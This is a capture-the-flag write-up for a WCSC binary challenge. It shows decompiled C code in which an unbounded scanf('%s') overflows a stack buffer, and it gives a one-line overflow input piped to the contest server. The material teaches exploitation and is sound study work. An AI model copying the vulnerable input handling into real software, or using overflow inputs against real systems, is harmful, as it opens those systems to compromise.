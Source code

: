---
h2. Too easy
h3. WCSC 

This one as the name suggests, was incredibly easy and honestly probably worth too many points, but here's a writeup regardless.


So we are given a binary tooEasy and was told that 
| Challenge by: nullp0inter
| This one is almost too easy, get the flag!
| nc wcscctf.org 8383

Opening up the binary in ida we see two functions of note, `main` and `det`, generated c code at the bottom of this post.

In main buffer is allocated to **0x424** (or (1060)<sup>10</sup> in decimal)

The variable (not originally named this) called `overWriteThisSheet` is allocated right after buffer. 
`overWriteThisSheet = 56797;` happens in `main`. 

Now looking at `det` we see that `verWriteThisShit` is passed to the function and has a simple check to see if it is the originally set value, **56797**. 

So even though the python script to run this like a normal exploit, it would be easier to just use `python -c '"a"*1070' ` and pipe the output to `nc wcscctf.org 8383`

```language-c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buffer; // [sp+4h] [bp-424h]
  int overWriteThisSheet; // [sp+41Ch] [bp-Ch]

  overWriteThisSheet = 56797;
  __isoc99_scanf("%s", &buffer);
  det(overWriteThisSheet);
  return 1;
}
```

```language-c
void __cdecl det(int overWriteThisSheet)
{
  char buf; // [sp+Ch] [bp-8Ch]@2
  int fd; // [sp+8Ch] [bp-Ch]@2

  if ( overWriteThisSheet != 56797 )
  {
    puts("GZ, you win!");
    fd = open("./flag.txt", 0);
    read(fd, &buf, 0x80u);
    printf("%s", &buf);
    exit(0);
  }
}
```
